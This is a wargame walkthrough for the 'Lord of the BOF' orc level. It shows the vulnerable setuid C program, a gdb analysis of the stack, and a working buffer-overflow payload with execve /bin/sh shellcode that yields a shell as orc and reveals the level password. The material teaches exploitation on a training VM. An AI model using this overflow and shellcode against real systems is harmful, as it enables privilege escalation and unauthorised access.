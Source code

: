 # Level4

## This level's goal
- LEVEL4 (goblin -> orc) : egghunter

***

```
[goblin@localhost goblin]$ bash2
[goblin@localhost goblin]$ ls -l
total 20
-rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
-rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
[goblin@localhost goblin]$ cat orc.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

In the code, there are two conditions.
1. the egghunter seems that you cannot use env variable. (cannot use RTL method).   
   this means you need to input the shell code in the buffer and return that.
2. the retrun address's first byte should be "0xbf"

```
[goblin@localhost goblin]$ ulimit -s unlimited
```

Before you make a core file, you need to turn off the ASLR

```
[goblin@localhost goblin]$ gcc orc.c -o orc2
[goblin@localhost goblin]$ ./orc2 `python -c 'print "A"*46+"\xbf"'`
stack is still your friend.
[goblin@localhost goblin]$ ./orc2 `python -c 'print "A"*47+"\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿
Segmentation fault (core dumped)
[goblin@localhost goblin]$ ls -l | grep core
-rw-------    1 goblin   goblin      61440 Jun 14 10:55 core
[goblin@localhost goblin]$ gdb -q -c core
Core was generated by `./orc2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿'.
Program terminated with signal 11, Segmentation fault.
#0  0xbf414141 in ?? ()
(gdb) x/64x $esp
0xbffffc40:     0x00000000      0x6f2f2e00      0x00326372      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc70:     0x41414141      0x41414141      0xbf414141      0x00000000
0xbffffc80:     0x00000000      0x00000000      0x00000000      0x00000000
```

In the code, I just found the memory structrue(buf 40bytes + SFP 4bytes + RET 4bytes).

The payload will be NOP(19bytes) + Shell code(25bytes) + Return Address(0xbffffc50)

```
[goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x50\xfc\xff\xbf"'`
bash$ id
uid=503(goblin) gid=503(goblin) euid=504(orc) egid=504(orc) groups=503(goblin)
bash$ my-pass
euid = 504
cantata
```

